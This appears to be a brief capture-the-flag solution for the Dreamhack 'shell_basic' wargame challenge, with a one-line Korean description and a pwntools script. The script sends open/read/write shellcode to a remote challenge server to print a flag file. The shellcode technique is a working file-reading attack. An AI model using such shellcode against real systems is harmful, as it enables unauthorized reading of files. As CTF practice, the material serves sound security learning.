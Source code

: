# exploit2
pwntool의 shellcraft를 이용해 해결하는 방법
```python
from pwn import *

p = remote('host3.dreamhack.games',  10713)
context.arch = 'amd64'
r = "/home/shell_basic/flag_name_is_loooooong"

shellcode = ''
shellcode += shellcraft.open(r)
shellcode += shellcraft.read('rax', 'rsp', 0x100)
shellcode += shellcraft.write(1, 'rsp', 0x100)

p.recvuntil("shellcode: ")
p.sendline(asm(shellcode))
print(p.recv())
```